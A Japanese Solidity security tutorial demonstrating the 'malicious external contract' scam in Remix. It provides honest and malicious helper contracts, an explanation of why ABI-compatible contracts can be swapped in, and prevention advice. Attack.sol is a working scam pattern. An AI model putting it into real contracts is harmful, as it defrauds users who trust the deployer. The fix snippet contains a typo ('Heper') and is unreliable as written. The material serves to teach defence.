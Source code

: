 # 悪質な外部コントラクト

暗号の世界では、一見正当な契約書が大きな詐欺の原因であったという話をよく耳にします。
ハッカーはどのようにして、正規の契約書から悪意のあるコードを実行することができるのでしょうか？

## 実演

`Attack.sol` 、`Helper.sol`、`MEC.sol` の3つのコントラクトが存在します。
ユーザーは `MEC.sol` を使って参加資格リストを入力することができ、さらに `Helper.sol` を呼び出して参加資格のあるすべてのユーザーを記録します。

`Attack.sol` は、参加資格者リストを操作できるように設計されているので、見てみましょう。

## コーディング

[Remix IDE](https://remix.ethereum.org/#optimize=false&runs=200&evmVersion=null&version=builtin)を開き、元からある全てのディレクトリとファイルを削除します。

`MEC.sol` を作成します。

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./Helper.sol";

contract MEC {
    Helper helper;
    constructor(address _helper) {
        helper = Helper(_helper);
    }

    function isUserEligible() public view returns(bool) {
        return helper.isUserEligible(msg.sender);
    }

    function addUserToList() public  {
        helper.setUserEligible(msg.sender);
    }

    fallback() external {}
}
```

続いて、`Helper.sol` を作成します。

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Helper {
    mapping(address => bool) userEligible;

    function isUserEligible(address user) public view returns(bool) {
        return userEligible[user];
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

最後に、`Attack.sol` を作成します。

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Attack {
    address owner;
    mapping(address => bool) userEligible;

    constructor() {
        owner = msg.sender;
    }

    function isUserEligible(address user) public view returns(bool) {
        if(user == owner) {
            return true;
        }
        return false;
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }
    
    fallback() external {}
}
```

以下の手順で実行します。

- `Helper.sol`、`Attack.sol`、`MEC.sol`をコンパイルする。

正常版

- ACCOUNTがデフォルトになっていることを確認し、`Helper.sol`をデプロイ。そのまま、`Helper`コントラクトのアドレスをコピペして`MEC.sol`をデプロイ。

- ACCOUNTを3番目のものに切り替えて、そのアドレスをコピー。Helperコントラクトの`setUserEligible`に貼り付けてボタンを押す。`isUserEligible`ボタンを押して`true`が返ってくることを確認。

- MECコントラクトの`addUserToList`ボタンを押す。続いて `isUserEligible`ボタンを押して`true`が返ってくることを確認。

異常版

- ACCOUNTを2番目のものに切り替えて、`Attack.sol`をデプロイ。そのまま、`Attack`コントラクトのアドレスをコピペして`MEC.sol`をデプロイ。

- ACCOUNTを3番目のものに切り替えて、そのアドレスをコピー。Helperコントラクトの`setUserEligible`に貼り付けてボタンを押す。`isUserEligible`ボタンを押して`false`が返ってくることを確認。

- MECコントラクトの`addUserToList`ボタンを押す。続いて `isUserEligible`ボタンを押して`false`が返ってくることを確認。

## 原因

`Attack.sol` は、`Helper.sol` と同じABIを生成することに気づきます。
これは、ABIには、パブリック変数、関数、イベントに対する関数定義しか含まれないからです。
つまり、`Attack.sol` は `Helper.sol` と同じようにタイプキャストすることができるのです。

`Attack.sol` は `Helper.sol` としてタイプキャストできるので、悪意のある所有者は、`Helper.sol` の代わりに `Attack.sol` のアドレスを持つ `MEC.sol` を展開し、ユーザーは、彼が本当にEligibility listを作成するために `Helper.sol` を使っていると信じることができるのである。

この場合、詐欺は次のように行われます。
詐欺師はまず、`Attack.sol`のアドレスを持つ `MEC.sol` をデプロイします。
次に、ユーザが `addUserToList`関数を使用して適格性リストを入力すると、この関数のコードは`Helper.sol`と`Attack.sol`で同じなのでうまく動作します。

なぜなら、この関数は `Attack.sol` の `isUserEligible` 関数を呼び出すので、常に`false`を返すからです。
この関数は、オーナー自身を除いて常に`false`を返すので、このようなことは起こらないはずでした。

## 予防策

- 外部コントラクトのアドレスを公開し、すべてのユーザーがコードを見ることができるようにします

- コンストラクタ内でコントラクトにアドレスをタイプキャストするのではなく、 新しいコントラクトを作成します。
つまり、`Helper(_helper)`のように `_helper` のアドレスをヘルパーのコントラクトに型キャストするのではなく、 `new Helper()` を使って新しいヘルパーのコントラクトを明示的に作成する。

```solidity
    Heper public helper;
        constructor(address _helper) {
        helper = new Helper();
    }
```